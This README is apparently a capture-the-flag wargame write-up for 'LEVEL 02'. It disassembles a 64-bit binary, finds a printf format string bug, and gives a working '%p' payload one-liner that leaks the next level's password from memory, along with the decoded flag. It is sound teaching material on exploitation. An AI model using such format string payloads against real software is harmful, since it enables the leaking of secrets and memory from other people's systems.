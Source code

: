 ## LEVEL 02
---
### For a better understanding of the levels and the solutions, I recommend you to read the [disassemble file](./asm/level02.asm) and the [source file](./src/level02.c). This README only contains the most important parts to solve the level.
---
### Security

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02
```
For this level, the NX security is disabled, so we can use overflow attacks again.
---

The level represents another step in reverse engineering since we are now dealing with a 64-bit program. This means we have to utilize 64-bit registers and instructions. Although this difference is not particularly significant for this level, it introduces new register names and instructions. However, it doesn't matter because we will apply the same automatisms as in the previous levels.

First, we need to identify a vulnerability within the code. If we examine the `main` function, we come across this interesting segment:

```shell
    0x0000000000400a96 <+642>:	lea    -0x70(%rbp),%rax
    0x0000000000400a9a <+646>:	mov    %rax,%rdi
    0x0000000000400a9d <+649>:	mov    $0x0,%eax
    0x0000000000400aa2 <+654>:	callq  0x4006c0 <printf@plt>
```

As we can see below `rdi` is used to store the first argument for the next function called.

![register usage in 64bits](./.assert/register.png)

Perfect! So the program calls `printf` with a buffer located at -0x70(rbp) as its only argument. As we know, this indicates a format string vulnerability. Now, let's determine what this buffer is.

```shell
    0x00000000004009cd <+441>:	lea    -0x70(%rbp),%rax
    0x00000000004009d1 <+445>:	mov    $0x64,%esi
    0x00000000004009d6 <+450>:	mov    %rax,%rdi
    0x00000000004009d9 <+453>:	callq  0x4006f0 <fgets@plt>
```

As we observed in the chart mentioned earlier, `%rdi` represents the first argument and `%rsi` the second argument (in this case, `%esp` since the second argument is an `int`). Therefore, we can infer that `fgets` is called with the syntax `fgets(buffer, 100)`.

This indicates that we can write any desired content into the `buffer` and exploit it using the appropriate format string to read from and write to memory. Now, the remaining task is to understand how to utilize this vulnerability to obtain the flag.

```shell
    0x0000000000400898 <+132>:	mov    $0x400bb0,%edx
    0x000000000040089d <+137>:	mov    $0x400bb2,%eax
    0x00000000004008a2 <+142>:	mov    %rdx,%rsi
    0x00000000004008a5 <+145>:	mov    %rax,%rdi
    0x00000000004008a8 <+148>:	callq  0x400700 <fopen@plt>
    0x00000000004008ad <+153>:	mov    %rax,-0x8(%rbp)
    [...]
    0x00000000004008e6 <+210>:	lea    -0xa0(%rbp),%rax
    0x00000000004008ed <+217>:	mov    -0x8(%rbp),%rdx
    0x00000000004008f1 <+221>:	mov    %rdx,%rcx
    0x00000000004008f4 <+224>:	mov    $0x29,%edx
    0x00000000004008f9 <+229>:	mov    $0x1,%esi
    0x00000000004008fe <+234>:	mov    %rax,%rdi
    0x0000000000400901 <+237>:	callq  0x400690 <fread@plt>
```

Here is the second part of the code that interests me. What does this part do?

This part of the code opens the file `/home/users/level03/.pass` with read (`r`) permissions and reads 41 bytes from it. The obtained data is then stored inside a buffer located at -0xa0(rbp).

Perfect! Now that we have all the necessary information, let's proceed with exploiting this level.

This program takes two inputs, but the second input is useless in our case. So we know that the second input is empty.

Now we need to know how `printf` can read the buffer at -0xa0(rbp). To do this, we will use the `%p` format string argument. This format string allows us to print the memory. We just need to know how many `%p` we need to write to reach the address `-0xa0(rbp)`.

First we need to understand the way the arguments are passed in x64 program. In x32 program, the arguments are store at the bottom of the stack to be able to access them with a positive offset. In x64 program, the arguments are store in registers. If there are more than 6 arguments (RDI, RSI, RDX, RCX, R8, R9) on Linux, the remaining arguments are stored on the stack. So I have to pass 6 more `%p` to start to read the start.

Now we need to compute the lenght between `$rbp` and `-0xa0(rbp)`. To do this I will use gdb.

```shell
(gdb) x/x $rbp
0x7fffffffe570:	0x00000000
(gdb) x/x $rbp-0xa0
0x7fffffffe4d0:	0x00000000
(gdb) x/x $rsp
0x7fffffffe450:	0xffffe658
```
```
0x7fffffffe4d0 - 0x7fffffffe450 = 0x80
0x80 / 8 (because 64 bits) = 16
```

So we need to pass 16 + 6 `%p` to read the `-0xa0(rbp)` value, the second thing we need to notice is the length of the `.pass` file, it's 41 bytes. So we need to pass 41 / 8 = 5 `%p` to read the `.pass` file.

Let's try it.

```shell
$ (python -c 'print "%p "*27' ; python -c 'print ""') | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe480 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe678 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil)  does not have access!
```

Perfect now we need to decode the hex value to get the flag.

```
0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d
<= REVERSE BYTES =>
4868373452506e75 51397361354a4145 58674e5743717a37 7358476e68354a35 4d394b6650673348
<= CONVERT IN ASCII =>
Hh74RPnu Q9sa5JAE XgNWCqz7 sXGnh5J5 M9KfPg3H
```

So the flag is `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

---

*Source :*

*https://nixhacker.com/case-of-format-string-in-64-bit-is-it-still-critical/*

*https://www.rapidtables.com/convert/number/hex-to-ascii.html*
